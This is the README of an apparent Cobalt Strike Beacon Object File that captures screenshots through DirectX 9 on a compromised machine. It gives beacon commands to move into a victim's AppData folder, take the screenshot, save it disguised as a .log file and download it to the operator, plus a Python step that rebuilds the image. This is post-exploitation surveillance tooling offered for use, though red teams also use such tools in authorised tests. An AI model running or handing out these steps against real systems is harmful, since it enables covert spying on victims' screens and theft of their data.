 # DirectX9-Screenshot-BOF

## Overview

Capture Screenshots with DirectX 9

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

